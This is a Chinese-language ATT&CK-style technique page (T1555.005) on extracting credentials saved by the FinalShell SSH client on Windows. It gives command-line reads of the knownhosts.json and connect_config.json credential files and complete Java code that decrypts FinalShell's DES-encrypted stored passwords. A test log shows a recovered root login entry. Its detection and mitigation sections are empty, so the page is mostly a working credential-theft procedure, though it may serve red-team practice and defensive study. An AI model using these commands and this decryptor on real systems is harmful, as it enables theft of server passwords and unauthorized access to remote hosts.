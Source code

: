 # T1555.005-Win-命令行获取Finalshell软件保存的公钥

## 描述

攻击者可能通过命令行工具从第三方密码管理器或SSH客户端（如FinalShell）中提取用户凭据或公钥。FinalShell是一款集SSH客户端、服务器管理和运维功能于一体的软件，广泛用于远程服务器管理。其存储的凭据（如用户名、密码）及SSH公钥通常以加密形式保存在本地配置文件中，但攻击者可通过访问这些文件并解密提取敏感信息。

在FinalShell中，SSH公钥存储在knownhosts.json文件中，密码等凭据存储在*_connect_config.json文件中（DES加密）。攻击者可通过命令行读取这些文件，或利用公开的解密代码提取明文凭据。获取的凭据可用于横向移动或访问远程服务器。此攻击无需提权，普通用户权限即可执行，隐蔽性较高。

## 测试案例

命令行获取finalshell软件保存的公钥。

FinalShell是一体化的的服务器，网络管理软件。不仅是ssh客户端，还是功能强大的开发，运维工具，充分满足开发，运维需求。

特色功能:
- 免费海外服务器远程桌面加速，ssh加速，本地化命令输入框，支持自动补全，命令历史，自定义命令参数。

命令行获取finalshell软件保存的公钥:

```yml
type c:\users\<username>\AppData\Local\finalshell\knownhosts.json
type d:\finalshell(安装路径)\knownhosts.json
```

该文件中关键字host的键值为远程服务器的SSH连接的IP和端口，关键字key的键值为该远程服务器的SSH连接的公钥。

密码存在下方文件中：

```yml
c:\Users\Administrator\AppData\Local\finalshell\conn\*********_connect_config.json
D:\software\finalshell\deleted\*********\***********_connect_config.json
```

json文件是des加密，可解密获得，打开<https://c.runoob.com/compile/10/>在线编辑器，使用下面java代码即可解密

```java
import java.io.ByteArrayOutputStream;
import java.io.DataOutputStream;
import java.io.IOException;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.Random;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;

public class FinalShellDecodePass {
    public static void main(String[] args)throws Exception {
        System.out.println(decodePass("TVE5YhZeGxyOCxxxxxxCUAnkVWgAeJ3L"));
    }
    public static byte[] desDecode(byte[] data, byte[] head) throws Exception {
        SecureRandom sr = new SecureRandom();
        DESKeySpec dks = new DESKeySpec(head);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("DES");
        SecretKey securekey = keyFactory.generateSecret(dks);
        Cipher cipher = Cipher.getInstance("DES");
        cipher.init(2, securekey, sr);
        return cipher.doFinal(data);
    }
    public static String decodePass(String data) throws Exception {
        if (data == null) {
            return null;
        } else {
            String rs = "";
            byte[] buf = Base64.getDecoder().decode(data);
            byte[] head = new byte[8];
            System.arraycopy(buf, 0, head, 0, head.length);
            byte[] d = new byte[buf.length - head.length];
            System.arraycopy(buf, head.length, d, 0, d.length);
            byte[] bt = desDecode(d, ranDomKey(head));
            rs = new String(bt);

            return rs;
        }
    }
    static byte[] ranDomKey(byte[] head) {
        long ks = 3680984568597093857L / (long)(new Random((long)head[5])).nextInt(127);
        Random random = new Random(ks);
        int t = head[0];

        for(int i = 0; i < t; ++i) {
            random.nextLong();
        }

        long n = random.nextLong();
        Random r2 = new Random(n);
        long[] ld = new long[]{(long)head[4], r2.nextLong(), (long)head[7], (long)head[3], r2.nextLong(), (long)head[1], random.nextLong(), (long)head[2]};
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        DataOutputStream dos = new DataOutputStream(bos);
        long[] var15 = ld;
        int var14 = ld.length;

        for(int var13 = 0; var13 < var14; ++var13) {
            long l = var15[var13];

            try {
                dos.writeLong(l);
            } catch (IOException var18) {
                var18.printStackTrace();
            }
        }

        try {
            dos.close();
        } catch (IOException var17) {
            var17.printStackTrace();
        }

        byte[] keyData = bos.toByteArray();
        keyData = md5(keyData);
        return keyData;
    }
    public static byte[] md5(byte[] data) {
        String ret = null;
        byte[] res=null;

        try {
            MessageDigest m;
            m = MessageDigest.getInstance("MD5");
            m.update(data, 0, data.length);
            res=m.digest();
            ret = new BigInteger(1, res).toString(16);
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        }
        return res;
    }
}
```

## 检测日志

暂无，未发现Windows安全日志、Sysmon日志记录相关信息。

模拟测试环境：Windows server 2012

## 测试复现

```yml
C:\Users\Administrator>type c:\users\administrator\AppData\Local\finalshell\know
nhosts.json
{"host_list":[{"marker":"","host":"124.223.-.-","type":"ssh-rsa","key":"——————"}]}

C:\Users\Administrator>type c:\Users\Administrator\AppData\Local\finalshell\conn
\wgdw661g0vpyfqxa_connect_config.json
{"forwarding_auto_reconnect":false,"custom_size":false,"delete_time":0,"secret_k
ey_id":"","user_name":"root","remote_port_forwarding":{},"conection_type":100,
"sort_time":0,"description":"","proxy_id":"0","authentication_type":1,"drivestor
edirect":true,"delete_key_sequence":0,"password":"aaaassss————","modified_time":1664024518386,"host":"124.223.-.-","accelerate":false,"id
":"wgdw661g0vpyfqxa","height":0,"order":0,"create_time":1664024518386,"port_forw
arding_list":[],"parent_update_time":0,"rename_time":0,"backspace_key_sequence":
2,"fullscreen":false,"port":22,"terminal_encoding":"UTF-8","parent_id":"root","e
xec_channel_enable":true,"width":0,"name":"test","access_time":1664024522100}
```

## 测试留痕

未监测到有效日志

## 检测规则/思路

无

## 建议

无

## 参考推荐

- MITRE-ATT&CK-T1555-005  
  <https://attack.mitre.org/techniques/T1555/005/>
- Finalshell导出密码解密解密  
  <https://www.jianshu.com/p/f5bfa7b229de>
